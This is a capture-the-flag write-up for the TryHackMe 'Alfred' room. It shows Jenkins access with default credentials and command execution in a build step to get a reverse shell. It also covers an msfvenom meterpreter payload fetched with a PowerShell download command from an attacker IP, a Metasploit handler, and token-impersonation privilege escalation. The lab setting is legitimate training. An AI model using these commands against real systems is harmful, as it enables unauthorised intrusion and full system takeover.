 ```yaml
---
slug: alfred-walkthrough
title: TryHackMe - Alfred - Walkthrough
authors: bw
tags: [learning, alfred, tryhackme, walkthrough]
---
```


This is a walkthrough for the room: [Alfred][alfred] on [TryHackMe][thm]. Let’s get started!

# Initial Access
First question is asking about how many TCP ports are open, however it does note that the server will not respond to ping, so we need to run the `-Pn` option for our `nmap` scan.

![a1](/img/thm/steelmountain/a1.png)

We see that this is clearly a Microsoft server, and there is a website on port 80 and 8080. Let’s take a look!

![a2](/img/thm/steelmountain/a2.png)

Wow, poor Batman! We know we are looking for login information since the next question asks for it. So there has to be some sort of login page. Let’s try checking 8080.

![a3](/img/thm/steelmountain/a3.webp)

Bingo! Now we still need a login. Let’s try some default credentials. After looking up Jenkins default credentials: `admin:password` trying that doesn’t work. Let’s try `admin:admin`. That works!

**NOTE:** I got lucky here by guessing default creds, but you could brute force this with hydra if it was more difficult.

Next, the room tells us to find a feature of the system that allows us to run commands. From there we can get a reverse shell on our machine using the command they give us.

If we navigate into the already created project, we can explore some more. Eventually, we get to **Configure**. In here under **Build**, we can run commands on the local system.

Before we do this, we need to download the script the room gives us ([here][nishang]) to our local machine. And then setup our python server:

`python3 -m http.server 80`

Then open a new terminal tab and start a netcat listener:

`nc -nvlp 1234`

Now, let’s enter our commands we want the server to execute. (These are given to us)

![a4](/img/thm/steelmountain/a4.png)

Click **Apply**, **Save** then select **Build Now**. If you go to your netcat listener terminal, you should now have a shell!

![a5](/img/thm/steelmountain/a5.png)

Now that we are in, we can look for the user flag!

![a6](/img/thm/steelmountain/a6.png)

Alright! Next section.

# Switching Shells
First step is to create our payload. Let’s open a new terminal and put in the commands given:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_vpn_ip> LPORT=1235 -f exe -o win_shell.exe
```
With the output, we get our next answer:

![a7](/img/thm/steelmountain/a7-1.webp)

Now we need to download the payload to the machine. Utilize the command given and run it in our shell on the victim machine.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<thm_vpn_ip>:80/shell-name.exe','shell-name.exe')"`
**NOTE:** If you stopped your Python webserver earlier, you will need to start that again under the folder where you save the payload: python3 -m http.server 80

Now, once again we need to start a listener, but since this is a `meterpreter` shell, we will need to use metasploit. Open a new terminal:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1235
run
```

Now that our listener is running, let’s start the payload by entering `Start-Process "shell-name.exe"` in the current shell on the victim machine.

You should now have a shell in metasploit!

# Privilege Escalation
Let’s follow along with the instructions. Type `shell` and then `whoami /priv`

Exit the local shell: `exit`, and run the following:

```bash
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid
```
Just like the room says, we need to migrate to a process that is running as `NT AUTHORITY\SYSTEM`. Lets run `ps` and look for the `services.exe` process.

![a8](/img/thm/steelmountain/a8.png)

From here we can run the following command: `migrate 668`

There let’s get the root flag!

![a9](/img/thm/steelmountain/a9.png)

# Review
This was a good in-between room. It was sort of a walkthrough but also didn’t give you all the information similar to a CTF. It was an easy room, but I definitely enjoyed it! See ya next time!

# References
[Alfred][alfred] | [TryHackMe][thm] | [Nishang][nishang]

[alfred]: https://tryhackme.com/why-subscribe?roomCode=alfred
[thm]: https://tryhackme.com
[nishang]: https://github.com/samratashok/nishang